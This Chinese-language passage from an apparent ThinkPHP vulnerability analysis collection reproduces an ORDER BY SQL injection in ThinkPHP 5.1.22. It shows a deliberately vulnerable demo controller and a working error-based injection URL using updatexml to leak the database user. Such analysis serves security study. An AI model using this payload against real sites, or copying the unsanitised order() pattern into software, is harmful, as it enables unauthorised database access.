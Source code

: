 只有当`$val[1]==$key`键值时才能进行拼接（那万一要执行
```
INSERT INTO `user` (`age`) VALUES ( oldage+1 ) 
```
呢？



# ThinkPHP 5.1.22 order by 注入

同时受到影响的还有3.2.3及以下的版本，这里仅以5.1.22进行分析

## 漏洞利用

下载好对应版本的ThinkPHP之后，创建一个demo页面

```php
public function index()
{
    $data=array();
    $data['username']=array('eq','admin');
    $order=input('get.order');
    $m=db('user')->where($data)->order($order)->find();
    dump($m);        
}
```

数据库

![](ThinkPHP-漏洞分析集合\10.png)

设置好对应的数据库配置，以及开启`debug`模式

访问如下url即可产生注入

```
http://localhost/tp5.1.22/public/?order[id`|updatexml(1,concat(0x3a,user()),1)%23]=1
```
